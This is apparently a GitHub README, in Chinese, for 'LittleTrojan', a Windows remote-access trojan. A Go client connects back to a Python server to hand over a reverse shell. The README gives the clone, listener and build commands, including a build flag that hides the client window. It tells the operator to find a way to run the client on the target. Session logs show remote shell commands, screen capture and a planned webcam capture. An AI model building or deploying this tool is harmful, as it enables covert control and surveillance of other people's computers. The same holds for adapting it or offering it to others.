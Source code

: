 # LittleTrojan

## LittleTrojan是什么
* 是一个利用Golang和Python实现的Windows远程控制工具。
* Client使用Golang实现，Server使用python实现，两者通过socket套接字通信。
* Client通过反向连接客户端来反弹shell。
* 最终实现的目的是替代或者等同metasploit、cobalt strike等渗透测试工具。

## LittleTrojan怎么运行
* 你可能需要使用VPS或者内网穿透等转发工具，确保客户端能够反向连接到你。
* 拉取最新的项目
```bash
git clone https://github.com/littlewith/LittleTrojan
```
* 目前仅为Demo版本，暂不支持加密通信和自定义生成木马，以后会进行功能完善。
* 在你的远程机器上运行客户端，需要安装相应的python版本。

```bash
# 不传入参数就可以查看详细的操作，当出现错误，会提示出错的原因。

python Server2.py

                    DreamShell ---> HELP DOCUMENT
                    -----------------------------
                    Launch service:   Server -a [--addr] (you ip) -p [--port] (your port)
                    when in command:   [command]
                    when in shell:  [cmd-shell]  or  [bash-shell]
                    -----------------------------
                    Some useful commands:
                    exit --> close the handler and stop the client process
                    restart --> restart the handler
                    screenshot --> take a screenshot on the screen
                    camerashot --> take a photo use the camera on the client
The addr or port seems not useful!
Please try again!

# 直接通过参数来指定监听的地址（0.0.0.0表示一切）和监听的端口（4433端口）（端口需要在Init.go中进行修改）

python Server2.py -a 0.0.0.0 -p 4433
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
```

* 在Init.go文件中更改一下要连接的ip和端口
```go
client.connect("127.0.0.1", 4433)
```

* 在本地编译客户端或者在远程编译客户端，想办法在远程机器上面进行执行客户端。
```bash
go build GoTrojan -ldflags="-H windowsgui -w -s"
go_build_GoTrojan.exe
```

* 连接成功，服务端出现提示
```bash
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
Starting convert with  ('127.0.0.1', 14083)
Tue May  2 09:38:13 2023
'127.0.0.1', 14083 (command)>shell
Starting shell.....
Tue May  2 09:38:22 2023
'127.0.0.1', 14083 (shell)>
```

## LittleTrojan常用的命令

1.获取客户端的命令行: shell
```bash
# 通过shell命令即可直接得到客户端的shell

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1285)
Tue May  2 10:00:03 2023
'192.168.23.1', 1285 (command)>shell
Starting shell.....
Tue May  2 10:00:12 2023
'192.168.23.1', 1285 (shell)>whoami
legion-r7000p\andy

Tue May  2 10:00:15 2023
'192.168.23.1', 1285 (shell)>
```

2.返回或者退出: exit
```bash
# 当命令处于第一层的时候，会直接退出客户端，例如从command退出，注意会直接断线！

'192.168.23.1', 1285 (command)>exit
('192.168.23.1', 1285) Waiting handler to exit...
The handler is exited successfully: Bye!
Service Launch! Listen on  0.0.0.0 : 1234

# 当命令不处于第一层的时候，可以返回上一层，例如从shell返回到command

'192.168.23.1', 1285 (shell)>exit
Back on command...
Tue May  2 10:02:50 2023
'192.168.23.1', 1285 (command)>

```

3.捕获屏幕: screenshot
```bash
# 捕获屏幕的数据会直接存储在服务器的当前目录下

Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1436)
Tue May  2 10:05:32 2023
'192.168.23.1', 1436 (command)>screenshot
screenshot-Len: 253
screenshot saved! File name is: ./screenshot535.png
Tue May  2 10:05:56 2023
'192.168.23.1', 1436 (command)>
```

4.捕获摄像头: camerashot
```bash
# 和捕获屏幕类似，捕获摄像头的图像也会传回服务器（目前还未实现）
```

5.重启服务: restart
```bash
# 如果当前连接出现问题，当回到command界面的时候，可以直接使用restart命令来重启连接

'192.168.23.1', 1934 (command)>restart
The handler will be restarted....Waiting...
Service Launch! Listen on  0.0.0.0 : 1234
Starting convert with  ('192.168.23.1', 1937)
Tue May  2 10:25:10 2023
'192.168.23.1', 1937 (command)>
```

